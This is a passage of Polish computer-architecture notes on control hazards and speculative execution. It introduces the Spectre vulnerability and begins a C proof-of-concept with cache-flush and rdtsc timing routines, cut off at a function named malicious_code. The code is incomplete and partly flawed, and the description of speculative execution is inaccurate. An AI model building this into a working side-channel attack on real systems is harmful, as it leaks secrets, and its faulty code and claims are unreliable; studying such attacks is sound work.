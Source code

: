 > Ref:
> - [Branch prediction examples](https://www.youtube.com/watch?v=aujUQ274bEE)

   Sposoby minimalizowania hazardów kontroli:
   1. Przewidywanie rozgałęzień (branch prediction): Procesor próbuje przewidywać, czy dane rozgałęzienie zostanie wykonane, i wstępnie ładuje odpowiednie rozkazy do potoku rozkazowego.
   2. Opóźnianie rozgałęzienia (branch delay slot): Procesor pozwala na wykonanie jednego lub kilku rozkazów po instrukcji rozgałęzienia, zanim rzeczywista zmiana przepływu sterowania zostanie wprowadzona. Kompilator może umieścić niezależne rozkazy w tych opóźnionych miejscach, aby zmniejszyć straty wydajności spowodowane hazardami kontroli.
   3. Wykonanie spekulatywne (speculative execution): Procesor wykonuje obie ścieżki po rozgałęzieniu warunkowym, jednocześnie śledząc poprawność wyników. Gdy warunek rozgałęzienia zostanie ostatecznie wyznaczony, procesor odrzuca wyniki niewłaściwej ścieżki i kontynuuje wykonanie poprawnej ścieżki.

> Ref:
> Interesująca podatność związana z SE (side-channel) - [Spectre - wiki](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability))
> [Spectre Attacks: Exploiting Speculative Execution](https://spectreattack.com/spectre.pdf)
> [Meltdown Security Vulnerability](https://github.com/IAIK/meltdown)
> [Meltdown Proof-of-Concept](https://www.geeksforgeeks.org/meltdown-security-vulnerability/)

Podatność Spectre dotyczy złośliwego wykorzystania spekulatywnego wykonania instrukcji przez procesor w celu uzyskania dostępu do poufnych informacji.


```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <time.h>

#define CACHE_LINE_SIZE 64
#define CACHE_SIZE 256

uint8_t timing_array[CACHE_SIZE * CACHE_LINE_SIZE];
uint8_t temp = 0;

// Funkcja do wyczyszczenia zawartości cache
void flush_cache() {
    for (size_t i = 0; i < CACHE_SIZE; i++) {
        _mm_clflush(&timing_array[i * CACHE_LINE_SIZE]);
    }
}

// Funkcja mierząca czas dostępu do danego elementu w timing_array
uint64_t measure_access_time(void *address) {
    uint64_t time1, time2;

    uint32_t trash;
    _asm {
        lfence
        rdtsc
        mov time1, eax
        mov eax, [address]
        mov trash, eax
        rdtsc
        mov time2, eax
        lfence
    }

    return time2 - time1;
}

// Funkcja wykorzystująca spekulatywne wykonanie instrukcji
void malicious_code(size_t x, const uint8_t *data, size_t data_length) {
```